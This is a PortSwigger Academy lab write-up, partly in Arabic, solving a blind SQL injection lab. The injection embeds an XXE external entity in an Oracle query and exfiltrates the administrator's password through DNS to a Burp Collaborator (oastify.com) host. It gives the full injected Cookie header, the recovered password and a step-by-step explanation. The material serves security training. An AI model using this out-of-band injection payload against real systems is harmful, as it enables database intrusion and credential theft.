Cookie: TrackingId=uSdq0uCSJ0Bo21MN'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.2x0kd4arp9wf4u2tlk2exq5940aryomd.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--; session=zahAEPB6Ls0SjsSsM8q2e3HMjPIF7gfi
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://portswigger.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers



```



## **`payload`**

```url
Cookie: TrackingId=uSdq0uCSJ0Bo21MN'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.2x0kd4arp9wf4u2tlk2exq5940aryomd.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--; 
```




<img width="1515" height="762" alt="image" src="https://github.com/user-attachments/assets/abc60122-0eb3-4b9a-ac53-a920a58cd44a" />

**`password`**

```
 l9fegk90yhnd387imm9m
```






- <details>


	
	
	
	
	# 📌 شرح استغلال SQLi + XXE OOB (Out-of-Band)
	
	## 🔎 الطلب المرسل:
	```http
	GET / HTTP/2
	Host: 0a5d00a904001c92814e203400120057.web-security-academy.net
	Cookie: TrackingId=uSdq0uCSJ0Bo21MN'+UNION+SELECT+EXTRACTVALUE(
	  xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f>
	  <!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.2x0kd4arp9wf4u2tlk2exq5940aryomd.oastify.com/">+%25remote%3b]>'),
	'/l') FROM dual--; session=zahAEPB6Ls0SjsSsM8q2e3HMjPIF7gfi
	```
	
	---
	
	## 📌 الخطوات اللي بتحصل:
	
	### 1. SQL Injection  
	- الاستغلال بدأ من متغير `TrackingId` في الكوكيز.  
	- تمت إضافة:  
	  ```sql
	  '+UNION+SELECT+EXTRACTVALUE(xmltype(...),'/l') FROM dual--
	  ```
	- الهدف: تنفيذ **XXE عبر قاعدة البيانات**.
	
	---
	
	### 2. EXTRACTVALUE + XMLType  
	- `EXTRACTVALUE` تفسر النص كـ XML.  
	- `xmltype('<...>')` يحتوي على **DTD**.  
	- داخل الـ DTD تم تعريف **External Entity (%remote)**.
	
	---
	
	### 3. الـ Out-of-Band Exploit (OOB)  
	```xml
	<!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.2x0kd4arp9wf4u2tlk2exq5940aryomd.oastify.com/">
	```
	- يعمل **DNS/HTTP request خارجي**.  
	- اسم الدومين يصبح:  
	  ```
	  [باسوورد الأدمن].2x0kd4arp9wf4u2tlk2exq5940aryomd.oastify.com
	  ```
	- مثال: لو الباسوورد `abc123` → الطلب سيكون:  
	  ```
	  http://abc123.2x0kd4arp9wf4u2tlk2exq5940aryomd.oastify.com
	  ```
	
	---
	
	### 4. استقبال البيانات عبر Burp Collaborator / OAST  
	- عند تنفيذ الطلب الخارجي، السيرفر يقوم بـ **DNS lookup** أو **HTTP request**.  
	- الباسوورد يتسجل عندك على الـ **Burp Collaborator client**.  
	- هكذا تسحب بيانات الأدمن **خارج القناة (Out-of-Band)**.
	
	---
	
	## 🎯 الهدف النهائي
	- استغلال **SQLi** → حقن دوال XML → تنفيذ **XXE External Entity** → تسريب بيانات حساسة (باسوورد الأدمن) إلى خادمك الخارجي.  
	- التقنية = **SQLi + XXE OOB** → مفيدة جدًا عند غياب النتائج المباشرة في الـ response.
	
	


  </details>



 
</details>





























## [Portsqigger cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)




































